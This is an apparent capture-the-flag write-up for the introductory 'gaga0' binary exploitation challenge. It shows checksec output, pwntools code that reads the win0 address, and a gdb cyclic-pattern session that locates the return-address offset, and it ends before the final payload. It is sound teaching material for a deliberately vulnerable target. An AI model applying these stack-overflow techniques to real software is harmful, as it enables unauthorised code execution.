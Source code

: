 ```c
```
There is a `win0` function which prints a flag if we call it. We also get the address of `win0`, even though pwntools can find it quite easy due to the lack of *PIE*
```bash
$ checksec gaga0
[*] '~/angstrom/pwn/gaga/0/gaga0'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
{: .nolineno }

Running the binary we get the output
```bash
$ ./gaga0
Welcome to gaga!
This challenge is meant to guide you through an introduction to binary exploitation.

Right now, you are on stage0. Your goal is to redirect program control to win0, which is at address 0x401236.
Your input:
```
{: .nolineno }

Since we are printed the address of `win0` we want to store that address (an easier way would be to just use `exe.sym.win0` with pwntools instead to get the address).

We start of by creating a template with `pwn template --host challs.actf.co --port 31300 --quiet ./gaga0 > exploit.py`, and then parse the output to store the address given
```python
io.recvuntil(b"win0, which is at address")
win0 = int(io.recvline().strip()[:-1], 16)
```
{: .nolineno }

We then have to find the offset to the `rip` register address stored on the stack. By sending a cyclic pattern the program will when `rip` gets an invalid address, and then we can read what address it tried to execute from.

```bash
$ gdb gaga0
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> r
Starting program: /home/andreas/Downloads/angstrom/pwn/gaga/0/gaga0
Welcome to gaga!
This challenge is meant to guide you through an introduction to binary exploitation.

Right now, you are on stage0. Your goal is to redirect program control to win0, which is at address 0x401236.
Your input: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
<snip>
► 0x40133b <main+152>    ret    <0x616161616161616a>
<snip>
```
{: .nolineno }
